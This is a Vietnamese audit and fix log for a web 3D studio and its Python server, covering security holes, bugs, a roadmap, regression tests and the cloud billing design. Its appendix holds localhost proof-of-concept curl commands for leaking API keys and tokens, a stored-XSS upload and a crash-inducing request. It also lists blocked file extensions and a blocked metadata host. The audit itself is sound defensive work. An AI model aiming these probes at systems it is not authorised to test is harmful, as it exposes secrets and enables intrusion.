| P2-7 | Không có accessibility | `aria-*`: 0, `role=`: 0 trong `index.html` | thêm `role="tree"/"treeitem"`, `aria-selected`, `aria-label` cho icon button, focus-visible |
| P2-8 | Render loop chạy 60 fps kể cả khi scene tĩnh | `js/core/engine.js:917-933` | dirty-flag: chỉ render khi camera/scene đổi (tiết kiệm pin ~40–60%) |
| P2-9 | `14x catch` rỗng/`catch(_){}` nuốt lỗi | 15 chỗ `catch(e) {}` | log có ngữ cảnh + hiển thị toast cho lỗi người dùng thấy được |
| P2-10 | Không có versioning cho file dự án `.blend.json` | `exportProjectJSON` không có `schemaVersion` | ✅ đã sửa: **schemaVersion 3** (scene graph đầy đủ, float base64); importer vẫn đọc được file v2 |
| P2-11 | Mỗi lần lưu settings, copilot POST toàn bộ key lên server | `ai-copilot.js:220-240` | chỉ gửi khi key thay đổi; không gửi key đã lưu |

---

## 5. Khuyết điểm kiến trúc (vì sao các lỗi trên dễ xảy ra)

1. **Không có ranh giới tin cậy.** Server được viết như "công cụ local" nhưng lại bind `0.0.0.0`; phần `/api/agent` được làm bảo mật rất kỹ, phần `/api/*` còn lại thì không. Cần một middleware xác thực dùng chung.
2. **Bí mật nằm ở cả 3 nơi**: `ai_config.json` (plaintext), env, và `localStorage` của browser. Chỉ nên tồn tại ở server.
3. **God file**: `server.py` 1.145 dòng trộn HTTP + WS + proxy + AI + mocap + hunyuan; `ai-copilot.js` 2.841 dòng; `index.html` 851 dòng. Nên tách router/service.
4. **Phụ thuộc `window.*` toàn cục** (hơn 60 global: `window.scene`, `window.engine`, `window.timelineEngine`...). Khiến test khó, thứ tự khởi tạo ngầm, và mọi module đều có thể sửa state của module khác.
5. **Không có lớp validate đầu vào** giữa HTTP ↔ bridge ↔ API nội bộ (dẫn tới P1-4, P1-8).
6. **Không có build step**: ưu điểm là chạy ngay, nhưng đổi lại không minify, không tree-shake, không có source map, cache-busting thủ công `?v=20261031_0205` (dễ quên bump → người dùng chạy code cũ).

---

## 6. Kế hoạch sửa (theo thứ tự ưu tiên)

### P0 — làm ngay (ước tính 1–1,5 ngày)
1. `_public_config()` + bỏ key khỏi mọi response (`server.py:783`, `:1022`, `hunyuan3d_engine.py:162`).
2. Mặc định `host="127.0.0.1"`; thêm token cho `/api/*` và WS; CORS theo origin cụ thể.
3. Validate endpoint `/api/ai/chat` (allowlist) — chặn SSRF.
4. Allowlist extension + tên file do server sinh cho 2 endpoint upload; thêm `Content-Disposition: attachment` cho thư mục upload.
5. `list(connected_clients)[-1]` → danh sách có thứ tự + `Origin` check cho WS.
6. `chmod 600 ai_config.json`; xoá key khỏi `localStorage` và query string.

### P1 — trong tuần (ước tính 3–5 ngày)
1. Dispose GPU đúng cách (`RemoveObjectCommand.onDiscard`), refcount texture.
2. `SkeletonUtils.clone` cho object có SkinnedMesh.
3. Coalesce Outliner render + incremental insert.
4. Bọc `do_POST` trong try/except, helper `_num()`, giới hạn body.
5. Autosave IndexedDB + `beforeunload` + `Ctrl+S`.
6. Sửa CSS Inspector (min-width + sidebar 300 px).
7. Validate số ở `timelineEngine` và các API public.

### P2 — sprint sau
Nâng three.js, CI/lint, dọn repo, accessibility, dọn `catch` rỗng, schema version cho file dự án.

**Kiểm thử hồi quy nên thêm** (đang thiếu hoàn toàn):
- `test_config_never_leaks_secrets` (assert không có `sk-`, `hf_`, `AIza` trong mọi response).
- `test_uploads_reject_html_js_extensions`.
- `test_bridge_targets_explicit_client`.
- `test_delete_releases_geometry` (đo `renderer.info.memory`).
- `test_duplicate_rig_has_independent_skeleton`.
- `test_malformed_numbers_return_400`.

---

## 7. Hướng phát triển thêm

### Giai đoạn A — "Tin cậy được" (2–3 tuần)
- **Autosave + crash recovery**: IndexedDB snapshot, phục hồi sau refresh; "Recent projects" ở màn hình chào.
- **Đóng gói desktop** bằng Tauri/Electron: hết vấn đề CORS/LAN, có file system thật, có auto-update. Đây là bước biến demo thành sản phẩm.
- **Undo/redo hoàn chỉnh**: hiện có command pattern nhưng thiếu cho material, modifier, rig, keyframe. Thêm transaction (`begin/commit`) để 1 thao tác AI = 1 bước undo.
- **Onboarding**: template dự án (nhân vật, kiến trúc, sản phẩm), tooltip phím tắt, "Blender ↔ Web" cheat sheet.

### Giai đoạn B — "Nhanh và sâu" (1–2 tháng)
- **Chuyển heavy lifting sang Web Worker + OffscreenCanvas**: geometry build, GLB parse, mocap retarget. Giữ main thread < 16 ms/frame.
- **Instancing + LOD** cho DSL hàng nghìn object (hiện 1 mesh = 1 draw call; dùng `InstancedMesh` cho cây/toà nhà/cửa sổ).
- **Real PBR pipeline**: KTX2/Basis, Draco, PMREM env map, IBL từ ảnh người dùng, node-based material editor (đã có graph editor → mở rộng thành shader graph).
- **Sculpt có subdivision (OpenSubdiv WASM)** và retopology tự động — đây là điểm khác biệt so với mọi "Three.js editor" khác.

### Giai đoạn C — "Khác biệt hoá" (3–6 tháng)
- **AI Agent thực thụ**: đã có `studio_mcp.py` + `window.agent` → đóng gói thành MCP server chuẩn để Claude/Cursor điều khiển studio; thêm "plan → preview diff → apply" thay vì chạy code ngay.
- **Image-to-3D tự host**: Hunyuan3D hiện phụ thuộc Gradio/Colab bên ngoài. Có thể thêm backend tuỳ chọn (Replicate/fal/ComfyUI) và cache kết quả theo hash ảnh.
- **Mocap nâng cấp**: multi-person, hand/finger landmarks, retarget sang Mixamo rig có sẵn, cleanup jitter (One-Euro filter đã có `minCutoff/beta` → expose thành preset), xuất BVH/FBX animation.
- **Collaboration**: CRDT (Yjs) cho scene + presence; vì scene đã có id ổn định (`userData.id`) nên khả thi.
- **Asset library & marketplace**: material/pose/model packs, import 1 click, license rõ ràng.
- **Export mở rộng**: USDZ (AR Quick Look), glTF + animation, FBX, video render có motion blur/depth of field (đã có WebM/MP4 → thêmDOF và bloom).

### Ưu tiên theo giá trị/chi phí
| Ưu tiên | Việc | Vì sao |
|---|---|---|
| ⭐⭐⭐ | Tauri + autosave + token auth | Biến demo thành sản phẩm dùng được hằng ngày |
| ⭐⭐⭐ | Worker hoá geometry + InstancedMesh | Mở khoá cảnh lớn — điểm yếu hiện tại |
| ⭐⭐ | SkeletonUtils + undo transaction | Sửa lỗi lõi của studio nhân vật |
| ⭐⭐ | MCP agent "preview trước khi apply" | Tận dụng tài sản đã có, tạo khác biệt |
| ⭐ | Marketplace, collab | Sau khi nền tảng ổn định |

---

## 8. Phụ lục — cách tái hiện nhanh

```bash
# 1. Chạy server
.venv/bin/python server.py

# 2. Lộ API key (không cần auth)
curl -s http://127.0.0.1:8080/api/config | python3 -c "import json,sys;d=json.load(sys.stdin);print(len(d['geminiKey']), len(d['openAiKey']))"

# 3. HF token lộ
curl -s http://127.0.0.1:8080/api/hunyuan3d/status | python3 -c "import json,sys;print(bool(json.load(sys.stdin)['config'].get('hfToken')))"

# 4. Stored XSS (upload .html rồi mở)
curl -X POST http://127.0.0.1:8080/api/mocap/upload \
  -H 'Content-Type: application/json' \
  -d "{\"fileData\":\"$(printf '<script>alert(1)</script>' | base64)\",\"fileName\":\"poc.html\"}"
curl -i http://127.0.0.1:8080/models/uploaded_mocap.html   # → text/html

# 5. Crash handler
curl -X POST http://127.0.0.1:8080/api/execute \
  -H 'Content-Type: application/json' -d '{"timeout":"abc","code":"1"}'   # → không response

# 6. Test hiện có
.venv/bin/python -m unittest test_agent_server      # 16/16 OK
node test_agent_core.mjs                            # PASS
# test trình duyệt chạy bằng Chrome headless + CDP (xem tests/*.html)
```

**Đã dọn dẹp sau kiểm thử:** file upload PoC, file rác 7,5 MB, server SSRF tạm, các key đã được che trong báo cáo.

---

## 9. Nhật ký sửa lỗi (đã thực hiện + đã kiểm chứng)

> Các mục 2–4 giữ nguyên **mô tả lỗi gốc** để đối chiếu. Mục này ghi đúng những gì đã sửa,
sửa ở đâu, và test nào chứng minh — không có mục nào được đánh dấu xong mà thiếu test.

### 9.1 Kết quả kiểm thử sau khi sửa

| Bộ test | Lệnh | Kết quả |
|---|---|---|
| Backend P0: bảo mật, chịu lỗi, upload Hunyuan | `bash tests/run_all.sh` | **34/34 OK** |
| Agent server / bridge | `.venv/bin/python test_agent_server.py` | **16/16 OK** |
| Agent core (JS) | `node test_agent_core.mjs` | **PASS** |
| Trình duyệt thật (Chromium, iframe) | mở `tests/browser-suite.html` | **11/11 PASS** |

### 9.2 Giai đoạn 1 — P0 bảo mật

| Lỗi | Cách sửa | File | Test hồi quy |
|---|---|---|---|
| P0-1 lộ API key | `GET/POST /api/config` chỉ trả `hasCustomKeys`, `customKeysCount`, `maskedKeys` (che phần lớn ký tự); không bao giờ echo key vừa gửi lên | `server.py` | `test_get_config_never_returns_secrets`, `test_post_config_never_returns_secrets`, `test_config_does_not_echo_submitted_key` |
| P0-2 LAN + RCE | Bind mặc định `127.0.0.1`; bind khác loopback **từ chối khởi động** nếu thiếu token; mọi `/api/*` kiểm tra `Host` và `Origin` khớp nhau, token tuỳ chọn qua `X-Studio-Token` hoặc cookie; bỏ CORS `*` | `server.py` | `test_foreign_host_is_rejected`, `test_foreign_origin_is_rejected`, `test_token_required_when_configured`, `test_wrong_token_is_rejected`, `test_same_origin_post_is_allowed`, `test_cors_is_not_wildcard` |
| P0-3 SSRF | `/api/ai/chat` bỏ qua `endpoint` do client gửi, chỉ dùng endpoint allowlist theo provider; chặn host metadata (`169.254.169.254`, …); validate `messages` (role, độ dài, tối đa 40) | `server.py` | `test_request_supplied_endpoint_is_rejected`, `test_uses_server_configured_endpoint_only` |
| P0-4 stored XSS | Upload chỉ nhận đuôi media allowlist; **tên file do server sinh** (`uploaded_<uuid>.<ext>`); giới hạn 50 MB; static chặn `.html/.htm/.xhtml/.svg/.js/.mjs/.xml/.php/.py/.sh/.bat/...` dưới `/models/`, `/agent_assets/`, `/uploads/`, kèm `nosniff` | `server.py`, `hunyuan3d_engine.py` | `test_mocap_upload_rejects_html`, `test_mocap_upload_generates_safe_name`, `test_mocap_upload_rejects_invalid_base64`, `test_static_never_serves_html_from_upload_dirs`, `test_static_still_serves_allowed_assets`, `test_rejects_html_and_svg`, `test_accepts_png_and_generates_name` |
| P0-5 HF token | `/api/hunyuan3d/status` chỉ trả cờ `hfTokenConfigured`; client xoá key khỏi `localStorage`, panel chỉ hiện danh sách đã che | `server.py`, `hunyuan3d_engine.py`, `js/ai/ai-copilot.js`, `js/ui/hunyuan3d-ui.js` | `test_status_never_includes_hf_token`, browser test “Không còn secret trong localStorage” |
| P0-6 WebSocket | Kiểm tra `Origin` khớp `Host`; token nếu bật; registry client có thứ tự, gửi tới đúng client thay vì “client cuối” mơ hồ | `server.py`, `js/core/studio-bridge.js` | `test_foreign_origin_rejected`, `test_missing_origin_allowed_for_cli`, `test_same_origin_allowed`, `test_targets_last_registered_client`, `test_registration_is_idempotent`, browser test “Bridge có đúng một WebSocket” |

### 9.3 Giai đoạn 2 — P1 (lỗi chức năng)

| Lỗi | Cách sửa | File | Test / số đo |
|---|---|---|---|
| P1-1 rò rỉ GPU | `SceneManager.deepDisposeObject()` giải phóng geometry, material, **mọi texture**, skeleton/`SkeletonHelper`, detach TransformControls; undo vẫn khôi phục được | `js/core/scene-manager.js` | test “Xoá object giải phóng geometry GPU”: `geometries 31 → 39 → 31` |
| P1-2 rig dùng chung skeleton | Nhân bản object có `SkinnedMesh` bằng `SkeletonUtils.clone` | `js/core/scene-manager.js:357` | test “Skeleton độc lập”: clone xoay 1 bone, bản gốc không đổi |
| P1-3 Outliner O(n²) | `queueRender()` gộp mọi sự kiện scene trong cùng một tick thành **một** lần dựng DOM trên `requestAnimationFrame`; Inspector dùng cùng cơ chế | `js/ui/outliner.js`, `js/ui/inspector.js` | “25 add → 1 lần render” (Outliner + Inspector); 120 object: **2.867 ms → 424–472 ms** |
| P1-4 tham số sai làm sập handler | `_read_json_body()` bọc lỗi, helper `_num()` chuẩn hoá/giới hạn số, `do_POST` bắt `AgentRequestError` → JSON 400 thay vì im lặng | `server.py` | `test_bad_timeout_returns_json_400_instead_of_dropping`, `test_bad_temperature_returns_json_400`, `test_negative_timeout_is_clamped_or_rejected`, `test_invalid_json_returns_400`, `test_server_survives_bad_request`, `test_unknown_endpoint_is_json_404` |
| P1-5 không giới hạn body | `MAX_JSON_BODY_BYTES` 2 MB, `MAX_UPLOAD_BYTES` 50 MB (body base64 ~4/3), trả 413 | `server.py` | `test_oversized_body_is_rejected_with_413`, `test_rejects_oversized_upload` |
| P1-6 mất dữ liệu khi đóng tab | Autosave IndexedDB mỗi 20 s + `visibilitychange`, `Ctrl/Cmd+S`, banner khôi phục ở **giữa phía trên** (không che Inspector) | `js/core/autosave.js`, `js/app.js` | browser test “Autosave lưu và đọc lại được bản nháp” |
| P1-7 Inspector cắt số | `.scrub-input-wrap { min-width: 64px }`, `.prop-field-group { min-width: 190px }`, sidebar mặc định **360 px** | `css/blender-theme.css` | test “Inspector hiển thị được giá trị Transform”: khung **68,3 px** (input 48,3 px) thay vì 12 px; không còn phần tử tràn ngang |
| P1-8 NaN lan vào scene | `insertKeyframe()` từ chối frame không hữu hạn và giữ nguyên transform; API public validate số | `js/animation/timeline-engine.js:483` | test “Timeline từ chối frame không hợp lệ” |

### 9.4 Giai đoạn 3 — P2 chọn lọc

- **Schema version**: file dự án ghi `meta.schemaVersion: 3` (Object3D scene graph + base64 float + timeline); file v2 cũ vẫn được nhập qua nhánh legacy. File mới hơn bị cảnh báo và phục hồi best-effort (`js/exporters/export-import.js`).
- **Phụ thuộc**: `requirements.txt` ghi rõ `mediapipe` không có wheel cho Python 3.13 → dùng Python 3.11; tách core (websockets) khỏi Mocap AI.
- **Một lệnh chạy test**: `bash tests/run_all.sh` (giữ nguyên exit code, in rõ suite nào fail).
- **Tài liệu**: README thêm mục bảo mật, autosave, kiểm thử; nêu rõ giới hạn phải chạy server để test trình duyệt.

### 9.5 Đo lại hiệu năng (cùng máy, cùng cảnh)

| Phép đo | Trước | Sau |
|---|---|---|
| Vòng lặp thêm 120 object (`studio.addCube`) | 2.867 ms | **424–472 ms** (≈6,1×) |
| 120 object tới frame kế tiếp (gồm render) | — | 900–1.016 ms |
| Bề rộng ô số Inspector | 12 px | **68,3 px** khung / 48,3 px input |
| `renderer.info.memory.geometries` sau khi xoá 8 object | 39 (rò 8) | **31** (đúng mức nền) |

### 9.6 Còn lại — **không** tính là đã xong

- 3 test Selenium cũ đã được **xoá** cùng các script one-off hard-code path Windows; test trình duyệt hiện dùng Chrome headless + CDP.
- Chưa sinh mô hình Hunyuan3D thật (không có backend Gradio/Colab) và chưa gọi LLM thật (tránh tiêu key) — chỉ kiểm chứng config/SSRF/redaction.
- Token LAN hiện dùng `X-Studio-Token` hoặc cookie do người dùng đặt; **chưa có màn hình đăng nhập**. Nếu phát hành cho người khác, nên thêm OAuth/SSO thay vì chia sẻ token.
- Chưa làm: nâng three.js r160 → bản mới, CI/lint, accessibility, Web Worker/OffscreenCanvas, `InstancedMesh`, undo transaction cho material/modifier/rig.
- Đây là audit trọng tâm trên ~50k dòng JS hiện tại; các module mới (simulation, light-helper, physics panel) được bổ sung sau audit gốc và đã có test riêng.

---

## 10. Giai đoạn 1 — Mocap chạy trong trình duyệt (Zero-Server-GPU)

Mục tiêu: bỏ phụ thuộc `mocap_engine.py` (Python + MediaPipe + OpenCV) cho đường chạy chính, và
sửa lỗi nhân vật trượt chân khi áp mocap. Kế hoạch gốc: `AGENTS.md` §3, tiến độ: `roadmap_web_saas.md`.

### 10.1 Thay đổi

| Hạng mục | Sửa gì | Tệp | Bằng chứng |
|---|---|---|---|
| Engine WASM | `BrowserMocapEngine`: nạp MediaPipe Tasks (vendored, fallback CDN), GPU→CPU, chạy theo `<video>` | `js/animation/browser-mocap.js` | 8 frame video thật, nhận dạng 100% |
| Copy frame sang canvas | MediaPipe WASM trả 0 pose khi đọc trực tiếp `<video>` vừa seek trong Electron → chép frame sang canvas 640 px trước khi suy luận | `js/animation/browser-mocap.js` | trước: 0 pose/4 frame; sau: 1 pose/frame |
| Shape landmark | `PoseLandmarkerResult` trả `[[33 landmarks]]` (lồng theo số người) → chuẩn hoá bằng `firstPose()` | `js/animation/browser-mocap.js` | test “nhận đúng shape thật của MediaPipe” |
| Timestamp khi subsample | `frameStep>1` từng làm clip chạy nhanh gấp đôi (`time = i/fps`) → dùng mốc thời gian video thật + lọc theo `fps/frameStep` | `js/animation/mocap-filters.js`, `browser-mocap.js` | 120 frame `frameStep=2`: duration 7,93 s (trước 6,50 s sai) |
| 1-Euro + bone length + root trajectory | Cổng JS thuần của pipeline Python để dùng chung cho client và test | `js/animation/mocap-filters.js` | parity: <1e-6 và <1e-4 |
| Foot-Lock IK | Phát hiện chạm sàn (hysteresis, độc lập trục Y), neo cổ chân, giữ độ dài cẳng chân, ngón chân đi theo | `js/animation/mocap-filters.js`, `mocap-retargeter.js` | trượt 0,25 m → 0,0000 m |
| UI | Chọn “Nơi xử lý AI”, ô “Khoá bàn chân (Foot IK)”, tiến trình fps/ETA của trình duyệt, huỷ an toàn | `js/ui/mocap-ui.js` | test DOM + chạy end-to-end 120 frame |
| Asset offline | Vendor `@mediapipe/tasks-vision@0.10.14` (bundle + WASM) vào `vendor/mediapipe/` | `vendor/mediapipe/` | tải trang không cần Internet |
| Danh sách video mẫu | `models/human_motion_sample.webm` **không tồn tại** nhưng vẫn nằm trong danh sách → bỏ khỏi UI và `/api/mocap/samples` | `js/ui/mocap-ui.js`, `server.py` | MediaError 4 trước khi sửa |

### 10.2 Kiểm thử (chạy lại được)

```
bash tests/run_all.sh
  1/6 unittest  : P0 security + robustness + parity mocap      OK (37 test)
  2/6 agent server                                           OK (16 test)
  3/6 agent core (Node)                                      PASS
  4/6 mocap client (Node)                                    PASS (31 test)
  5/6 rig mapping (Node)                                     PASS (5 test)
  6/6 GLB animation export (Node)                            PASS (6 test)
  => ALL AUTOMATED SUITES PASSED (exit 0)

Trình duyệt:
  /tests/mocap-suite.html   11/11 PASS
  /tests/browser-suite.html 11/11 PASS  (không hồi quy)
```

### 10.3 Đo hiệu năng (cùng máy, cùng 120 frame)

| Đường xử lý | Thời gian | Tốc độ | GPU server |
|---|---|---|---|
| Python `mocap_engine.process_video` | 38,63 s | 3,1 fps | có dùng |
| Trình duyệt WASM (`processVideo`, `frameStep=2`) | 27,75 s | 4,3 fps | **0** |

### 10.4 Giai đoạn 1.3 — xuất GLB kèm hoạt cảnh + nhận rig VRM (02/11/2026)

| Hạng mục | Sửa gì | Tệp | Bằng chứng |
|---|---|---|---|
| Nút xuất có hoạt cảnh | `MocapUI.exportAnimatedGLB()` xuất **nhân vật + `AnimationClip` đang áp** thành một `.glb` (`<tên>_mocap.glb`), trả về `{blob, buffer, filename}` để test kiểm chứng | `js/ui/mocap-ui.js` | xuất Michelle thật: **1.772,6 KB**, 21 channel, 756 keyframe |
| Track mồ côi | `exportGLTF()` lọc track không trỏ tới node nào trong phạm vi xuất và **bỏ clip còn 0 track** — trước đây clip rỗng vẫn sinh `animations[0]` rỗng trong file | `js/exporters/export-import.js` | test “clip rỗng không tạo animation giả” |
| VRM / VRoid | `stripName()` hiểu `J_Bip_C_Hips`, `J_Bip_L_UpperArm`… và **giữ bên trái/phải thành hậu tố** (nếu bỏ tiền tố sẽ mất phân biệt L/R) | `js/animation/mocap-retargeter.js` | 18/18 xương lõi map đúng |
| Character Creator | Bỏ tiền tố `CC_Base_`, thêm `leftupperleg/leftlowerleg`; **pass 3** cho phép mượn `CC_Base_NeckTwist01` làm xương cổ khi rig không có xương cổ trơn | `js/animation/mocap-retargeter.js` | neck → `CC_Base_NeckTwist01` |
| Kiểm chứng GLB | Bộ đọc GLB độc lập (header/chunk/accessor) dùng chung Node + trình duyệt, giải mã keyframe thật trong BIN chunk | `tests/glb-inspect.mjs` | so khớp quaternion từng keyframe < 1e-5 |
| Agent bridge đổi tên xương | `createAgent` gắn `objectAdded` → `assignHierarchy` đổi tên **mọi** node cho duy nhất, gồm cả xương: import lần 2 sinh `mixamorigHips_001` làm track clip mất bind. Nay bỏ qua `isBone`; thêm `_remapClipTrackNames()` phòng khi tên đã bị đổi | `js/agent/agent-api.js`, `js/exporters/export-import.js` | import 2 lần: xương vẫn `mixamorigHips`, cả 2 bản đều chạy clip (đo trong Studio: 4,32°/0,45 s mỗi bản) |
| Play không phát clip đã áp | `TimelineEngine` chỉ phát keyframe thủ công, nên clip mocap gắn trên nhân vật không chạy khi bấm Play. Thêm `attachClip()/detachClip()/_evaluateClips()`: dùng `AnimationMixer` đặt thời điểm theo frame, tua/kéo timeline đều đúng pose; `MocapUI.applyRetargeting()` và `_integrateImportedObject()` tự gắn clip | `js/animation/timeline-engine.js`, `js/ui/mocap-ui.js`, `js/exporters/export-import.js` | `tests/test_timeline_clip_playback.mjs` (7/7) + đo trong Studio: 0,5 s Play → xương tay xoay 17,73°, frame 0 → 15 |
| Xuất cả cảnh mất hoạt cảnh | Nút `Export GLB` gọi `exportGLTF(rootContainer)` — clip mocap chỉ sống trên retargeter nên file xuất ra có **0 animation**. Nay retargeter gắn clip vào nhân vật (`character.animations`) và `exportGLTF()` quét mọi node con gom clip | `js/animation/mocap-retargeter.js`, `js/exporters/export-import.js` | test “Xuất cả cảnh tự gom clip gắn trên vật thể con”; file xuất thật 21 channel → Godot 4.7.2 thấy `AnimationPlayer`/17 track |
| Kiểm chứng engine thật | `tests/godot_import_check.sh` sinh fixture bằng chính `StudioExporter` rồi import headless bằng Godot, kiểm tra xương / track / pose thay đổi theo thời gian | `tests/godot_import_check.sh`, `.gd`, `tests/make_glb_fixture.mjs` | Godot **4.7.2**: fixture 20 xương/20 track/19 xương chuyển động; file Michelle thật 65 xương/21 track/17 xương chuyển động (`audit/godot-import-result.txt`) |

**Test mới**

| Bộ | Nội dung | Kết quả |
|---|---|---|
| `tests/test_glb_animation.mjs` | Xuất qua `StudioExporter.exportGLTF` thật: header/chunk, tên clip, thời lượng, channel, keyframe trong BIN, **import lại bằng `GLTFLoader`** (65 xương, mixer chạy), đối chứng âm (xuất không animation phải FAIL), clip rỗng, **xuất cả cảnh gom clip gắn trên node con**, **đổi tên track khi node bị trùng tên** | 8/8 PASS |
| `tests/test_rig_mapping.mjs` | Skeleton thật cho Mixamo / VRM-VRoid / Character Creator; retarget lên rig VRM tạo track `J_Bip_*`; rig thiếu xương không làm sập | 5/5 PASS |
| `tests/test_timeline_clip_playback.mjs` | `attachClip` lưu clip + nới `endFrame`; `seekToFrame` đổi pose; `play()+update()` chạy; scrub khi pause không tự chạy; `detachClip` trả bind pose; clip rỗng/clip mồ côi bị từ chối; track mồ côi bị cắt; xoá vật thể thì gỡ clip | 9/9 PASS |
| `tests/mocap-suite.html` (2 test mới) | Xuất GLB từ **Michelle.glb** thật rồi đọc lại; mở lại bằng `GLTFLoader` trong chính Studio iframe | 11/11 PASS |

### 10.5 Còn lại — **không** tính là đã xong

- Đã import được bằng **Godot 4.7.2** (headless, xem nhóm 7/8 của `run_all.sh`); **Blender và Unity chưa thử**.
- Importer Godot **xoá track hằng số** khi tối ưu hoá: một take tổng hợp gần như đứng yên chỉ còn 6 track
  sau import (đúng hành vi của Godot, không phải mất dữ liệu); take thật giữ đủ 21 track.
- Chưa có file `.vrm` mẫu: mới kiểm chứng **quy ước đặt tên** VRM/VRoid, chưa chạy trên file VRM thật
  (VRM còn có `VRM` extension, spring bone — ngoài phạm vi retarget).
- Tốc độ phụ thuộc `seek`: video 13 s mất ~2 phút. Hướng tối ưu: WebCodecs `VideoDecoder` hoặc
  lấy mẫu theo thời gian thực bằng `requestVideoFrameCallback`.
- Foot-lock chỉ sửa cổ chân/ngón chân, chưa có IK cho gối (chân vẫn có thể hơi “trượt gối” ở góc máy xiên).
- Godot **không tự phát** animation của file vừa import khi bấm F5 (glTF không có khái niệm autoplay):
  phải chọn node `AnimationPlayer` rồi bấm ▶ trong panel Animation, hoặc bật `Autoplay`. Không phải lỗi export.
- Xuất GLB giữ nguyên `embedImages: true` nên file có texture nhúng; chưa có tuỳ chọn Draco/KTX2.
- Chưa đo chất lượng hình ảnh (so khớp khung xương) giữa bản trình duyệt và bản server trên video dài;
  parity hiện chỉ ở mức toán học của từng bước lọc.

## 11. Giai đoạn 3.3 — Cloud Auth / Database / Billing (02/11/2026)

**Quyết định kiến trúc:** dùng **BFF same-origin** (`/api/cloud/*`) thay vì cho trình duyệt gọi thẳng
Supabase. Service-role key chỉ nằm ở server; credit/quota được kiểm tra và ghi ledger trong cùng
transaction; đổi provider (local ↔ supabase) không phải sửa UI.

| Rủi ro | Cách chặn | Bằng chứng |
|---|---|---|
| Lộ service-role key / secret thanh toán | `CloudConfig.public_status()` chỉ trả URL + anon key cần cho Auth; secret đọc từ file/env server | `tests/test_cloud.py` (redaction, env overrides) |
| Sửa credit từ DevTools | Credit là ledger server-authoritative; mọi charge/refund qua transaction, idempotency key | test quota/charge/refund; `tests/cloud-suite.html` simulate lặp không cộng lần 2 |
| Đọc dự án người khác | Mọi query lọc `user_id`; ownership test user B → 404 | `tests/test_cloud.py`, `cloud-suite` |
| Webhook giả | SePay HMAC `sha256=`/`Apikey`; Lemon `X-Signature`; thiếu/sai chữ ký → 401 | test signature sai, underpaid, duplicate |
| Dev login mở cho cả LAN | Chỉ chấp nhận client loopback; LAN/production phải dùng Supabase | `test_dev_login_rejects_non_loopback_clients` |
| Upload file độc hại | Chỉ nhận base64 → kiểm tra magic `glTF`, giới hạn bytes/body theo route; tên file do server sinh | test non-GLB, 413 |
| SSRF / Host-Header | `/api/cloud/*` qua guard Host/Origin; Supabase URL bắt buộc https và đúng host | test Supabase client, server guard |
| RLS hở | Schema bật RLS nhưng **không policy cho client**; chỉ service key/RPC `SECURITY DEFINER` ghi dữ liệu | assertion schema trong `tests/test_cloud.py` |
| Link chia sẻ hỏng khi xoá asset | Public URL đọc theo id; xoá asset → 404; CORS `*` chỉ cho asset công khai | `cloud-suite`: upload → fetch 200 → delete → 404 |

**Lỗi phát hiện trong lúc E2E và đã sửa**

| Lỗi | Nguyên nhân | Sửa |
|---|---|---|
| Nút ☁ Cloud báo “đã tải lên” nhưng liên kết rỗng | tham số `location` của `CloudClient` **che mất** `window.location`, nên `origin = ''` và `absoluteUrl()` trả path tương đối; `buildHostedEmbedUrl()` từ chối URL không phải http(s) | dùng `globalThis.location`; thêm test hồi quy “default global location supplies the origin” (`tests/test_cloud_client.mjs` 14/14) |
| Panel gọi sai API lịch sử thanh toán | dùng `client.api('/api/cloud/payments')` trực tiếp | thêm `CloudClient.listPayments()` và panel dùng method này |

**Test:** `tests/test_cloud.py` 38/38 · `tests/test_cloud_client.mjs` 14/14 · `tests/cloud-suite.html` 10/10 ·
`bash tests/run_all.sh` 18 nhóm PASS. **Chưa test với Supabase/SePay/Lemon thật** (cần credential + URL public).

---

## 12. Rà soát chức năng con & quyền sở hữu phím (03/11/2026)

Mục tiêu: mỗi chức năng trả về **đủ dữ liệu** và **không bị chức năng khác chiếm phím/trạng thái**.

### 12.1 Lỗi tìm thấy khi test từng chức năng

| # | Chức năng | Hiện tượng | Nguyên nhân | Sửa + test |
|---|---|---|---|---|
| A1 | Undo/Redo | Group rồi Undo làm **mất object con**; Ungroup rồi Undo để lại group rỗng | undo một `AddObjectCommand` chỉ gỡ group nhưng con vẫn nằm trong group; ungroup không có command | `GroupObjectsCommand` (lưu cha gốc) + `UngroupCommand`; `tests/test_scene_history.mjs` 9/9, interaction-suite |
| A2 | Duplicate | Shift+D / menu với nhiều object tạo nhiều bước undo hoặc bỏ sót object | mỗi bản sao ghi một `AddObjectCommand`; object con được chọn kèm cha bị nhân đôi | `duplicateObjects()` lọc con của vùng chọn, ghi **một** `AddObjectsCommand`; 2 object → 4 → 1 undo → 2 |
| A3 | Phím tắt vs DevTools | `F12` dùng cho Render nhưng trình duyệt luôn mở DevTools, trang không chặn được | F12 là phím hệ thống | đổi sang **Shift+F12**, nhãn menu/help đổi theo; wire lại `btn-render-viewport`; test gọi đúng 2 lần |
| A4 | Dialog / ô nhập | Delete/G/Space/Arrow vẫn thao tác cảnh khi dialog mở, khi gõ tên, hoặc trong code editor | mỗi handler tự kiểm tra rời rạc | `js/core/interaction-guard.js` dùng chung cho engine, timeline, mocap, sculpt, modeling; test 11/11 |
| A5 | Tab | Tab trên nút/menu đang focus bật Edit Mode thay vì điều hướng UI | viewport `preventDefault` vô điều kiện | bỏ qua Tab khi `isInteractiveTarget()` |
| A6 | Modal G/R/S | Delete xoá object, Tab bật Edit Mode, Ctrl+Z undo, Numpad0 đổi camera **giữa lúc kéo** | modal chỉ chặn các phím nó xử lý, phím khác lọt xuống engine | `isModalTransformActive()` trong guard chặn toàn bộ shortcut viewport; test mới trong interaction-suite |
| A7 | Project JSON | Vertex sửa tay (sculpt/edit) **mất sau khi mở lại**; file chỉ lưu tham số Box/Sphere | `BoxGeometry.toJSON()` ghi `parameters`, không ghi `attributes` | `_materializePrimitiveGeometries()` thay bằng snapshot `BufferGeometry` + base64 float |
| A8 | Project JSON | Keyframe timeline **mất sau khi mở lại** | importer dựng map id từ `loaded` **sau khi** đã chuyển con sang `rootContainer`, nên map rỗng | resolve id trên `rootContainer`/scene hiện tại; test round-trip 2 keyframe + 1 clip |
| A9 | Project JSON | Gọi nhầm `sm.clearObjects()` (không tồn tại), chỉ chạy được nhờ fallback | tên method sai | dùng `window.studio.clearScene()` → `sm.clearScene()` |
| A10 | Phím trình duyệt | `Cmd/Ctrl+Shift+R` bị app chặn → không reload được mà mở Rotate | engine/app nhận G/R/S mà không kiểm tra modifier | G/R/S chỉ nhận khi **không** Ctrl/Meta/Alt/Shift; test “Cmd/Ctrl+Shift+R không bị app chặn” |
